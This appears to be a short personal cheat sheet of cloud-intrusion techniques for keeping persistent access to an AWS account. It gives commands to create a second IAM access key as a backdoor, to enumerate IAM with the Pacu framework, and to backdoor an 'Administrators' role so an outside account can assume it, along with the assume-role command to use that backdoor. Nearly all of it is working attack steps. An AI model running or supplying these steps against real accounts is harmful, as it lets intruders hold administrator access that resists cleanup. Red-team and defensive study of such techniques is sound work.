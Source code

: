 # Persistence
## Backdoor account with second set of access keys
- Each account can have two access keys
```
aws iam create-access-key --user-name <username>
```

## Trust relationships
- Can create a trust relationship with an entity OUTSIDE of an AWS account. (cross account persistence)

#### Run pacu
```
sudo python3 cli.py
import_keys <AWS PROFILE NAME>
```

#### Run the enumeration modules
```
run iam__enum_users_roles_policies_groups
run iam__enum_permissions
whoami
```

#### Find ARN of external AWS account
```
sudo aws sts get-caller-identity
```

#### Backdoor the role
-  Pacu has a module that backdoors IAM roles called iam__backdoor_assume_role
```
run iam__backdoor_assume_role
run iam__backdoor_assume_role --role-names Administrators --user-arns <full ARN of your external account>
```

#### Use the external AWS account backdoor
- Not sure how to get ARN of the policy
```
sudo aws sts assume-role --role-arn <Full ARN of Backdoored Role> --role-session-name persist --profile <personal AWS account profile>
```
